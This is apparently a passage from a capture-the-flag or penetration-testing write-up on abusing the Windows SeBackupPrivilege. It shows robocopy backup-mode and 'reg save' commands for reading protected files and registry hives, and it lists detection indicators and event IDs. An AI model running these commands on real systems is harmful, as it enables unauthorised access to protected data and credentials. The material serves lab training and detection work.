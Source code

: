 ### Alternative Methods

#### Method 1: Robocopy Approach
```cmd
# Use robocopy with backup mode
robocopy /B "c:\Users\Administrator\Desktop\SeBackupPrivilege" .\backup flag.txt

# Read copied file
type .\backup\flag.txt
```

#### Method 2: Registry Approach (if flag in registry)
```cmd
# Create registry backup
reg save HKLM\SOFTWARE SOFTWARE.SAV

# Extract and analyze offline
```

## ⚠️ Limitations and Considerations

### Explicit Deny ACEs
```cmd
# FILE_FLAG_BACKUP_SEMANTICS won't bypass:
- Explicit DENY entries for current user
- Explicit DENY entries for user's groups
- Always check ACLs before attempting access
```

### Operational Considerations
```cmd
# Best practices:
- Test on non-production systems first
- Document all file accesses
- Clean up temporary files
- Respect client data handling policies
```

## 🔍 Detection Indicators

### Process Activity
```cmd
# Monitor for:
- diskshadow.exe execution
- robocopy.exe with /B flag
- Unusual file access patterns in protected directories
- Registry hive backup operations
```

### Event Logs
```cmd
# Key Event IDs:
Event ID 4656 - Handle to object requested (backup operations)
Event ID 4663 - Access attempt to object (SeBackupPrivilege usage)
Event ID 4673 - Sensitive privilege use (SeBackupPrivilege)
Event ID 5120 - DPAPI key backup (credential access)
```
